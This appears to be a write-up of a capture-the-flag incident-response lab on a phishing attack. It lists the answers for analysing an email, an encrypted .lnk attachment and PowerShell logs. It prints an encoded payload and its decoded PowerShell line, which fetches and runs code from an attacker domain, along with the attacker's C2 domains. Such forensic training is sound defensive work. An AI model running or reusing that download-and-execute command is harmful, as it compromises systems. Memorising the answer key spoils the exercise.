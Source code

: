 Answer: julianne.westcott@hotmail.com

What is the name of the third-party mail relay service used by the attacker based on the DKIM-Signature and List-Unsubscribe headers?
Answer: elasticemail

We can copy the content of the email header and use online tool to analyze the content. Here I used https://mha.azurewebsites.net/
<img width="683" height="280" alt="Screenshot 2025-10-01 at 4 00 52 PM" src="https://github.com/user-attachments/assets/28506051-8b5f-4973-85c3-9a36a2bff55d" />

What is the name of the file inside the encrypted attachment?
Answer: Invoice_20230103.lnk

What is the password of the encrypted attachment?
Answer: Invoice2023!

Based on the result of the lnkparse tool, what is the encoded payload found in the Command Line Arguments field?
Answer: aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AZgBpAGwAZQBzAC4AYgBwAGEAawBjAGEAZwBpAG4AZwAuAHgAeQB6AC8AdQBwAGQAYQB0AGUAJwApAA==

Parse the the malicious file using the tool mentioned.
<img width="693" height="170" alt="Screenshot 2025-10-01 at 4 01 01 PM" src="https://github.com/user-attachments/assets/39c3a538-0703-493f-a2d6-804d64156627" />
Decode the strings in cyberchef.
<img width="680" height="185" alt="Screenshot 2025-10-01 at 4 01 10 PM" src="https://github.com/user-attachments/assets/f4f447eb-43b9-4443-b5b8-8b2aa1b99f77" />
iex (new-object net.webclient).downloadstring(‘http://files.bpakcaging.xyz/update')

Task 3 [Endpoint Security] Are you sure that’s an invoice?
Based on the initial findings, we discovered how the malicious attachment compromised Julianne’s workstation:

A PowerShell command was executed.
Decoding the payload reveals the starting point of endpoint activities.
Investigation Guide
With the following discoveries, we should now proceed with analysing the PowerShell logs to uncover the potential impact of the attack:

Using the previous findings, we can start our analysis by searching the execution of the initial payload in the PowerShell logs.
Since the given data is JSON, we can parse it in CLI using the jq command.
Note that some logs are redundant and do not contain any critical information; hence can be ignored.
JQ Cheatsheet
jq is a lightweight and flexible command-line JSON processor. This tool can be used in conjunction with other text-processing commands.

You may use the following table as a guide in parsing the logs in this task.

Note: You must be familiar with the existing fields in a single log.
<img width="678" height="237" alt="Screenshot 2025-10-01 at 4 01 21 PM" src="https://github.com/user-attachments/assets/e5247bae-4cbf-4331-bb8f-0b712e1c4bc7" />
You may continue learning this tool via its documentation.

The following command will filter only the fields in the file which I find helpful in the task.
<img width="659" height="64" alt="Screenshot 2025-10-01 at 4 01 29 PM" src="https://github.com/user-attachments/assets/c5ffaf87-c586-4bb9-b06b-3faecb8ee3fe" />
<img width="679" height="329" alt="Screenshot 2025-10-01 at 4 01 37 PM" src="https://github.com/user-attachments/assets/1492e0e5-1491-4a05-b3b3-99d064187172" />
Answer the questions below
What are the domains used by the attacker for file hosting and C2? Provide the domains in alphabetical order. (e.g. a.domain.com,b.domain.com)
Answer: cdn.bpakcaging.xyz,files.bpakcaging.xyz
